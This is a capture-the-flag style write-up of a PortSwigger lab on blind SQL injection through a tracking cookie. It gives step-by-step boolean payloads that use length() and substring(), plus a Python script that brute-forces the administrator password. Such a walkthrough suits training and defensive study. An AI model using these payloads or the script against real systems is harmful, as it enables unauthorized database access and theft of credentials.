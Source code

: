 # Blind SQL injection with conditional responses

In this lab we are going to exploit a blind SQL injection in the Cookie Header of the web request. Introduction of the lab environment implies that tracking cookie performs an sql query for analytics. If the result of the query is `True` than response will have "Welcome back!" message in the page. So before moving on forward let's take a look at the server response before performing any SQL query to the Cookie value. Also the objective of the lab is logging in to the panel as administrator

![image](https://user-images.githubusercontent.com/68084571/139441054-9f5fa8d1-c762-4d05-8990-a0f73eadd1cf.png)

After seeing the result of a successful result from the database let's just send the request to Burp and play with the request a little bit more. As can be seen putting a quote to the TrackingID cookie value, it breaks the SQL query and in response to that we don't get Welcome back!. However ending the cookie value with a simple comment `--` resolves the issue.

![image](https://user-images.githubusercontent.com/68084571/139441741-15413aab-6d1d-47ab-9994-0d3ec3f46c70.png)

![image](https://user-images.githubusercontent.com/68084571/139441959-5d8b7695-7c5b-43c2-a22c-a4b6a55e9c99.png)

So we do definetely have a valid SQL responses. Now let's just try to enumerate the `administrator` user as given in the description part of the lab. In order to achieve this I will use a second query that resolves the username.

Simply the query I will be sending to the Cookie value is going to be:
```sql
c69OqpZi2pw86km2' and (select username from users where username='administrator')='administrator'--
```
Since we sent a true statement result is as expected including the Welcome message.

![image](https://user-images.githubusercontent.com/68084571/139442645-7289e670-df43-48d3-a568-759a606f2715.png)

The next step we should consider is determining the password length of administrator account just to be sure how many characters are we going to brute force. I will be using `length()` function. To do that we can use Intruder or a simple bash / python script. All Burp is going to perform is basically bruteforce 1-26 by incrementing 1 to the marked field which is password length in our case.

```sql
TrackingId=c69OqpZi2pw86km2' and (select username from users where username='administrator' and length(password)=1)='administrator'--
```
![image](https://user-images.githubusercontent.com/68084571/139444143-96102ea4-d55e-480e-a2bd-bd30b3a180f5.png)

![image](https://user-images.githubusercontent.com/68084571/139444274-91187a3d-7f28-4a92-8bf7-68b0dda041e5.png)

We do have a different Length in the response when we hit 20 on the password length.

![image](https://user-images.githubusercontent.com/68084571/139444546-aa3e22f9-d4c9-47bc-adae-ceefbf8c976c.png)

To extract the password of the user we should perform a SQL query that will help us determine the characters in the password field 1 by 1. Otherwise this will be a normal brute force like we can perform on the login panel. Changing the query we sent;
```sql
c69OqpZi2pw86km2' and substring((select password from users where username='administrator'),1,1)='a'--
```

The query is going to send a request to database like, I am going to try only 1 character at a time and my first character is going to be `a`. This is determined by `SUBSTRING()` function which will serve like SUBSTRING(password,\<start value\>, \<length\>). In our case this will start from first character and try the length of 1. If we succeed than we will increment to second character for the length of 2.
```sql
c69OqpZi2pw86km2' and substring((select password from users where username='administrator'),2,1)='b'--
```
This will continue until we reach last char on the password field. We can accomplish this within the burpsuite, however since I am not using the Pro version, it will probably take too long to finish. So in an alternative way I will build a python script to brute force.
  
```python
#!/usr/bin/env python3
import requests
import string

def injection(args):
    url = 'https://ac4f1fda1eab6a73c0f0070200a100c6.web-security-academy.net/product?productId=1'
    r = requests.get(url, cookies=cookies)
    # If query result is True response will have Welcome back!
    if "Welcome" in r.text:
        return True

printable = string.printable
iteration = ''
for i in range(1,22):
    for char in printable:
        password = iteration + char
        print("\r",f'Password: {password}',flush=False,end="")
        cookies = {"TrackingId":f"c69OqpZi2pw86km2' and substring((select password FROM users where username='administrator'),{i},1)='{char}'-- -"}

        if injection(cookies):
            print("\r",iteration,flush=True,end="")
            iteration += char
            break

```
After getting the correct password of the user, trying to login on the panel and we see;

![image](https://user-images.githubusercontent.com/68084571/139453184-2f4e29a0-f179-43ac-a17a-00144130d44c.png)
  
  
  
